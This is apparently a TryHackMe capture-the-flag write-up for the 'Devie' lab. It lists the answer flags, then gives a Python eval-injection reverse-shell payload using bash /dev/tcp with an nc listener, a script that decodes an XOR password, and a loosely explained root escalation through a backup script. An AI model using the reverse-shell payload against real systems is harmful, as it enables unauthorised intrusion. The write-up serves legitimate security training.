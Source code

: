 # Devie

A developer has asked you to do a vulnerability check on their system.

<p align="center">
  <img src={require("./assets/devie/devie.png").default} width="128" />
</p>

## Answers

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

THM{X0R_XoR_XOr_xOr}

> What is the root flag?

THM{J0k3r$\_Ar3_W1ld}

## Writeup

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<p align="center">
  <img src={require("./assets/devie/nmap.png").default} />
</p>

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<p align="center">
  <img src={require("./assets/devie/website.png").default} />
</p>

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<p align="center">
  <img src={require("./assets/devie/vuln.png").default} />
</p>

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`

<p align="center">
  <img src={require("./assets/devie/flag1.png").default} />
</p>

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<p align="center">
  <img src={require("./assets/devie/key.png").default} />
</p>

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`

<p align="center">
  <img src={require("./assets/devie/flag2.png").default} />
</p>

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```

The final flag is `THM{J0k3r$_Ar3_W1ld}`
